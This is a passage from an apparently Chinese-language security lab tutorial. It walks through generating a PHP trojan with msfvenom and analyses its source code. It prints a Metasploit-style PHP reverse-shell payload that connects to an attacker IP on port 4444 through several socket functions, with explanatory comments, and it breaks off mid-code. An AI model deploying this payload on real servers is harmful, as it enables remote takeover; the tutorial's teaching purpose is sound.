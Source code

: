 这一步需要等待一到两分钟，请耐心等待，成功之后如图所示：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480991207692.png-wm)

之后可以使用 `ls` 命令，查看当前目录下的文件。此时 `hello.php` 木马文件已经生成，可以通过 `cat hello.php` 查看该文件的内容：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480991375959.png-wm)

### 4.2 分析 PHP 木马代码

对于使用 msfvenom 生成的 PHP 木马，其源代码如下所示：

```
/*<?php /**/ error_reporting(0); 

// 攻击者的目标 ip 地址
$ip = '192.168.122.101';

// 攻击者的端口为 4444
$port = 4444;

if (($f = 'stream_socket_client') && is_callable($f)) { 
    
    // 连接 ip 地址和端口
    $s = $f("tcp://{$ip}:{$port}");
    $s_type = 'stream'; 
} elseif (($f = 'fsockopen') && is_callable($f)) {

    // 由 ip 地址和端口两个参数连接
    $s = $f($ip, $port); 
    
    // 类型 type 为 stream
    $s_type = 'stream';
} elseif (($f = 'socket_create') && is_callable($f)) {

    $s = $f(AF_INET, SOCK_STREAM, SOL_TCP);
    
    // 由协议，ip 地址，端口三者确立连接
    $res = @socket_connect($s, $ip, $port);
    
    // 判断是否为空，为空则终止脚本函数
    if (!$res) { 
        die(); 
    } 
    
    // 连接的数据类型
    $s_type = 'socket'; 
} else { 
        die('no socket funcs'); 
} 

// 如果没有 socket 连接，则报错
if (!$s) {
    die('no socket'); 
} 

switch ($s_type) { 
    case 'stream': $len = fread($s, 4); break;
    case 'socket': $len = socket_read($s, 4); break;
} 

// 根据长度判断是否为空，为空则终止脚本函数
if (!$len) {
```